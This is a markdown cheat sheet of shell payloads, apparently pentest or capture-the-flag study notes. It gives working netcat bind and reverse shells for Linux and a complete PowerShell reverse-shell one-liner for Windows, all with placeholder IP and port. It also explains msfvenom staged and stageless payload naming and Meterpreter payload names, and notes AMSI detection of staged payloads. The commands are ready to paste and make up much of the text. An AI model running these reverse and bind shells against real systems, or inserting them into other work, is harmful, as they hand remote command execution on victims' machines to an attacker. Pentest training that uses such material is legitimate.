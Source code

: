 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the "IP" & "Port"

# Msfvenom

1. **Staged** payloads are sent in two parts. The first part is called the stager, It does not contain the payload but rather run's and downloads the payload.
Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective


2. **Stageless** payloads are more common, They are entirely self-contained in that there is one piece of code which sends a shell back immediately to the waiting listener.


## Msfvenom payload naming

 `<OS>/<arch>/<payload>`

**stageless payload** = `shell_reverse_tcp` *Stageless payloads are denoted with underscores (_)*

**Staged payload = `shell/reverse_tcp` *As staged payloads are denoted with another forward slash (/)*


This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads`

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads.

`msfvenom --list payloads | grep "linux/x86/meterpreter"


# Meterpreter 

- Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with **Windows targets**
 - If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell.
  - Downside to meterpreter shells is that they must be caught in Metasploit.


